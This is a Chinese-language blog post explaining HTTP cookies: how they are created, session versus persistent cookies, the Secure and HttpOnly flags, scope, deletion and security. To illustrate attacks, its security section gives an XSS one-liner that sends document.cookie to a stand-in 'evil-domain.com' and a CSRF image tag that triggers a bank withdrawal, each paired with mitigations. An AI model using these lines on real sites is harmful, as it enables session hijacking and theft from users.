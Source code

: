 ```yaml
---
layout: post
title:  "Cookie 详解"
date:   2017-10-30 23:45:13 -0400
background: '/img/posts/05.jpg'
---
```


Cookie会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于[无状态](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview#HTTP_is_stateless_but_not_sessionless)的HTTP协议记录稳定的状态信息成为了可能。

Cookie主要用于以下三个方面：
*   会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
*   个性化设置（如用户自定义设置、主题等）
*   浏览器行为跟踪（如跟踪分析用户行为等）

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API "DOM Storage") （本地存储和会话存储）或 [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 。

## 创建Cookie

当服务器收到HTTP请求时，服务器可以在响应头里面添加一个[`Set-Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie "响应首部 Set-Cookie 被用来由服务器端向客户端发送 cookie。")选项。浏览器收到响应后通常会保存下Cookie，之后对该服务器每一次请求中都通过[`Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie "Cookie 是一个请求首部，其中含有先前由服务器通过 Set-Cookie  首部投放并存储到客户端的 HTTP cookies。")请求头部将Cookie信息发送给服务器。另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

####会话期Cookie
会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。

####持久性Cookie
和关闭浏览器便失效的会话期Cookie不同，持久性Cookie可以指定一个特定的过期时间（Expires）或有效期（Max-Age）。
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

### Cookie的`Secure` 和`HttpOnly` 标记

安全的Cookie只应通过HTTPS协议加密过的请求发送给服务端。即便设置了 `Secure` 标记，敏感信息也不应该通过Cookie传输，因为Cookie有其固有的不安全性，`Secure `标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（`http:`）无法使用Cookie的 `Secure` 标记。

为避免跨域脚本 ([XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS "XSS: Cross-site scripting (XSS) is a security exploit which allows an attacker to inject malicious client-side code into a website, which is then executed by the victims. The intent is to allow a person to bypass access controls and impersonate users. According to the Open Web Application Security Project, XSS is the third most common vulnerability in web applications for 2013.")) 攻击，通过JavaScript的 [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie "获取并设置与当前文档相关联的 cookie。若您需要一个通用的库，请查看简单的cookie框架。") API无法访问带有 `HttpOnly` 标记的Cookie，它们只应该发送给服务端。如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 `HttpOnly` 标记。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```
### Cookie的作用域

`Domain` 和 `Path` 标识定义了Cookie的*作用域：*即Cookie应该发送给哪些URL。

`Domain` 标识指定了哪些主机可以接受Cookie。如果不指定，默认为[当前文档的主机](https://developer.mozilla.org/en-US/docs/Web/API/Document/location)（**不包含子域名**）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置 `Domain=mozilla.org`，则Cookie也包含在子域名中（如`developer.mozilla.org`）。

`Path` 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 `%x2F` ("/") 作为路径分隔符，子路径也会被匹配。

## 删除Cookie
将cookie的过期时间设置为过去的时间可以删除该cookie，但是他不会删除带有`HttpOnly`的标记的cookie，如果设置了path或者domain参数，同样不能删除

### JavaScript通过Document.cookies访问Cookie

通过[`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie "获取并设置与当前文档相关联的 cookie。若您需要一个通用的库，请查看简单的cookie框架。")属性可创建新的Cookie，也可通过该属性访问非`HttpOnly`标记的Cookie。

## 安全

当机器处于不安全环境时，切记*不能*通过HTTP Cookie存储、传输敏感信息。

### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS "XSS: Cross-site scripting (XSS) is a security exploit which allows an attacker to inject malicious client-side code into a website, which is then executed by the victims. The intent is to allow a person to bypass access controls and impersonate users. According to the Open Web Application Security Project, XSS is the third most common vulnerability in web applications for 2013.")攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly`类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

### 跨站请求伪造（CSRF）

[维基百科](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)已经给了一个比较好的[CSRF](https://developer.mozilla.org/en-US/docs/Glossary/CSRF "CSRF: CSRF (Cross-Site Request Forgery) is an attack that impersonates a trusted user and sends a website unwanted commands. This can be done, for example, by including malicious parameters in a URL behind a link that purports to go somewhere else.")例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

*   对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS "XSS: Cross-site scripting (XSS) is a security exploit which allows an attacker to inject malicious client-side code into a website, which is then executed by the victims. The intent is to allow a person to bypass access controls and impersonate users. According to the Open Web Application Security Project, XSS is the third most common vulnerability in web applications for 2013.")；
*   任何敏感操作都需要确认；
*   用于敏感信息的Cookie只能拥有较短的生命周期；
*   更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。





